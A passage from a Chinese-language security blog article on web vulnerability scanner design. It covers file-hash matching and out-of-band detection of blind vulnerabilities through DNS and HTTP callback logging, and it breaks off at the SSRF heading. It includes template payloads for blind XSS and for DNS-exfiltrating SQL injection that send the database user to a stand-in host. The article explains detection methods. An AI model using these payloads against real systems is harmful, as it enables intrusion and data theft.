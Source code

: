 ##### vi. 文件哈希

有时候漏洞只与单个文件有关，例如 Flash、JavaScript 等文件造成的漏洞，这个时候就可以利用文件哈希来直接判断是否存在漏洞。扫描检测时，首先需要给定路径下载对应的文件然后计算哈希与统计的具有漏洞的所有文件哈希进行比对，匹配成功则说明漏洞存在：

```
payload: "http://vuln.com/vuln_swf_file.swf"
condition: hash(vul_swf_file.swf) == hash_recorded
```

以上就是针对 Web 漏洞检测方法中的 “直接判断” 进行了示例说明，因 Web 漏洞类型繁多且环境复杂，这里不可能对其进行一一举例，所举的例子都是为了更好的说明 “直接判断” 这种检测方法。:)

#### 2. 间接判断

“无回显？测不了，扫不了，很尴尬！怎么办。。。“

在很久很久之前，我遇到上诉这些漏洞环境时是一脸懵逼的 (⇀‸↼‶)，一开始懂得了用回连进行判断，后来有了 `python -m SimpleHTTPServer` 作为简单实时的 HTTP Server 作为回连监控，再后来有了[《Data Retrieval over DNS in SQL Injection Attacks》](http://arxiv.org/ftp/arxiv/papers/1303/1303.3047.pdf)这篇 Paper，虽然文章说的技术点是通过 DNS 查询来获取 SQL 盲注的数据，但是 "Data Retrieval over DNS" 这种技术已经可以应用到大多数无法回显的漏洞上了，进而出现了一些公开的平台供安全研究爱好者们使用，如：乌云的 cloudeye 和 Bugscan 的 DNSLog，当然还有我重写的 CEYE.IO 平台。

"Data Retrieval over DNS" 技术原理其实很简单，首先需要有一个可以配置的域名，比如：ceye.io，然后通过代理商设置域名 ceye.io 的 nameserver 为自己的服务器 A，然后再服务器 A 上配置好 DNS Server，这样以来所有 ceye.io 及其子域名的查询都会到 服务器 A 上，这时就能够实时地监控域名查询请求了，图示如下（借的 Ricter 的）：

![]({{ site.url }}/public/img/article/2016-06-01-how-to-scan-and-check-vulnerabilities/9.png)

说了那么多，还是不知道怎么用么？那就直接看示例吧（所以后端平台都用 CEYE.IO 作为例子）。

##### i. XSS（无回显）

XSS 盲打在安全测试的时候是比较常用的，“看到框就想 X” 也是每位 XSSer 的信仰：

```
payload: "... ><img src=http://record.com/?blindxss ..."
condition: {http://record.com/?blindxss LOG} in HTTP requests LOGs
```

通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：

![]({{ site.url }}/public/img/article/2016-06-01-how-to-scan-and-check-vulnerabilities/10.png)

##### ii. SQLi（无回显）

SQL 注入中无回显的情况是很常见的，但是有了 "Data Retrieval over DNS" 这种技术的话一切都变得简单了，前提是目标环境符合要求。[《HawkEye Log/Dns 在Sql注入中的应用》](http://docs.hackinglab.cn/HawkEye-Log-Dns-Sqli.html)这篇文章提供了一些常见数据库中使用 "Data Retrieval over DNS" 技术进行盲注的 Payloads。

```
payload: "... load_file(concat('\\\\',user(),'.record.com\\blindsqli'))
condition: {*.record.com LOG} in DNS queries LOGs
```

只要目标系统环境符合要求并且执行了注入的命令，那么就会去解析预先设置好的域名，同时通过监控平台能够拿到返回的数据。

![]({{ site.url }}/public/img/article/2016-06-01-how-to-scan-and-check-vulnerabilities/11.png)

##### iii. SSRF（无回显）
